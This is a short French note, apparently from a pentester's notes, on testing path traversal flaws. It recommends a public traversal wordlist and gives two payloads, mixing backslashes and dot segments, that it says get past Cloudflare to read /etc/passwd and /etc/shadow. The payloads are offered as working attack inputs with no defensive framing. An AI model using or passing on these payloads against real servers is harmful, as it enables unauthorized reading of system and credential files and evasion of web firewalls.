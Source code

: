 j'ai pu tester des faille path traversal: 

utiliser cette liste courte vraiment pas mal: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/Intruder/directory_traversal.txt

les payloads suivant fonctionne avec cloudflare:

/..\../..\../..\../..\../..\../..\../etc/passwd
/..\../..\../..\../..\../..\../..\../etc/shadow	
